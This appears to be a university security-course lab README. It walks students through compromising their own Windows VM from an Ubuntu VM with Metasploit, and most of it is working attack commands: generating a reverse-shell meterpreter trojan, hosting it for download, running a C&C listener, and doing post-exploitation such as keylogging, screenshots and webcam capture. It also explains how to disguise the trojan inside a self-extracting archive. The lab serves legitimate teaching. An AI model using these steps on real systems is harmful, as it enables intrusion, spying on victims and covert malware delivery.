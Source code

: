 # its250
Online resources and examples

### 1. Description
Install Metasploit framework on Ubuntu then launch it from Ubuntu, carry out a cyber attack on the Windows server VM to get ultimate control.

**Prerequisite**

* Both Windows server VM and the Ubuntu VM are used
* Install Metasploit framework on Ubuntu

You may follow this [installation video]()

1. Install with [Rapid7 installer](https://docs.rapid7.com/metasploit/installing-the-metasploit-framework) on Ubuntu.
   ```bash
   # 0. Update and upgrade Ubuntu
   sudo apt update -y && sudo apt upgrade -y
   # 1. Disable anti-virus software (default)
   # 2. Disable firewalls (default)
   # 3. Install with root priviledges
   curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall 
   chmod 755 msfinstall
   sudo ./msfinstall
   ```
2. (Optional) Install with [Rapid7 installer](https://docs.rapid7.com/metasploit/installing-the-metasploit-framework) on Windows.
   ```batch
   # 1. Disable anti-virus software (Done in Lab03)
   # 2. Disable firewalls (Done in Lab03)
   # 3. Download metaspoit framework windows installer, then in nstall with Administrator account.
   ```

### 2. Tasks (100%)

*Note: replace VM IPs with yours in these tasks*

1. (5%) Find the IP addresses of your Windows server VM and Ubuntu VM, make sure they can ping each other
2.  (10%) On Ubuntu, create a trojan program with msfvenom
    ```bash
    # Replace the Ubuntu_IP with yours
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=Ubuntu_IP LPORT=12345 -f exe > trojan.exe
    ```
3. (10%) On Ubuntu, host trojon.exe with Python built-in SimpleHTTPServer
   ```bash
   # Run the command below from the folder contains trojan.exe
   sudo python3 -m http.server 80
   ```
4. (20%) On Ubuntu, starting a Command-and-Control (C&C) Server
   ```bash
   # Inside msfconsole, replace the Ubuntu_IP with yours
   use multi/handler
   set PAYLOAD windows/meterpreter/reverse_tcp
   set LHOST Ubuntu_IP
   set LPORT 12345
   # 1. one-time exploit
   exploit

   # 2. continuous exploit
   set exitonsession false
   exploit -j
   ```
5. (5%) On Windows, open a web browser, download http://Ubuntu_IP/trojan.exe, 
6. (5%) On Windows run trojan.exe and ignore any warnings.
7. (5%) On Ubuntu, if everything works, a meterpreter session should open.
8. (10%) Explore and use the meterpreter shell
9. (10%) Migrate to a different process inside meterpreter
   ```bash
   # show a list of processes
   ps
   # migrate to winlogon process
   migrate -N explorer.exe
   # migration is unreliabe. If it failed, restart Windows VM, repeat step 6-9 until succeed.
   ```
10. (20%, each 4%) Post-exploitation. Now the Windows VM is under control. Play with the following meterpreter commands.
   ```bash
   # 1. take a screenshot of the victim's desktop
   screenshot
   # 2. capture key strokes
   # 2.1 start capturing key stroke in the victim machine
   keyscan_start
   # 2.2 On the victim machine, open notepad and type something
   # 2.3 Inside meterpreter, dump the captured key strokes
   keyscan_dump
   # 3. (Optional) Take a phone with the webcam
   webcam_snap
   # 4. Get a Windows command prompt on the victim machine
   shell
   # exit the windows command prompt above
   exit
   # 5. Check network connections on the victim machine from meterpreter
   netstat
   ```

### 3. Review questions (Optional)
1. Hide trojan.exe in a self-extract archive.
   1. Download an image as a cover image.
   2. With WinRAR, create a self-extract archive of the cover image and trojan.exe
   3. Configure run after extraction to be: trojan.exe then the cover image.
   4. Download another harmless-look image, convert it into an icon on [icoconvert](https://icoconvert.com/), then use this icon as the icon of the self-extract archive.

**Demo video**


## Reference
* [Running a simple HTTP web server with one terminal command and python](https://linuxconfig.org/running-a-simple-http-web-server-with-one-terminal-command-and-python)
  * [Share Files Using Lightweight Http Servers in Linux](https://linuxhint.com/share_files_lightweight_http_server/)
* [Metasploit](https://docs.rapid7.com/metasploit/quick-start-guide)
  * [Installing Metasploit](https://docs.rapid7.com/metasploit/installing-metasploit-pro)
  * [Restarting Metasploit Services](https://docs.rapid7.com/metasploit/restarting-metasploit-services)
  * [Uninstalling Metasploit](https://docs.rapid7.com/metasploit/uninstalling-metasploit)
* [Installing Metasploit Penetration Testing Framework](https://fedoraproject.org/wiki/Metasploit_Penetration_Testing_Framework)
  * [Metasploit Postgres Setup](https://fedoraproject.org/wiki/Metasploit_Postgres_Setup)
* [Metasploit Framework](https://docs.rapid7.com/metasploit/msf-overview)
* [Creating Infectious Media with Metasploit](https://samsclass.info/123/proj10/p4msf.htm)
* [Offensive Msfvenom: From Generating Shellcode to Creating Trojans](https://medium.com/@PenTest_duck/offensive-msfvenom-from-generating-shellcode-to-creating-trojans-4be10179bb86)
  * [Hide Payloads Behind Images](https://medium.com/@chamo.wijetunga/hide-payloads-behind-images-and-hacking-windows-fb82cf2f0e7c)
    * [7z examples](https://www.dotnetperls.com/7-zip-examples)
  * [Create malicious PDF](https://fareedfauzi.github.io/blog-post/Create-malicious-pdf/)
  * [How to Embed (Hide) a Backdoor into a File (pdf, exe, etc...)](http://dan3lmi.blogspot.com/2019/01/how-to-embed-hide-backdoor-into-file.html)
* [Lab: Hacking an Android Device with MSFvenom](https://resources.infosecinstitute.com/topic/lab-hacking-an-android-device-with-msfvenom/)
* [Autorun.inf Maker](http://www.ashzfall.com/products/autorun/index.html)
  * [How do I test autorun.inf files without wasting CD's?](http://www.ashzfall.com/products/autorun/autorunfloppy.html)
  * [How to Auto-Run Windows Programs When You Plug In a USB Drive](https://www.howtogeek.com/326049/how-to-auto-run-windows-programs-when-you-plug-in-a-usb-drive/)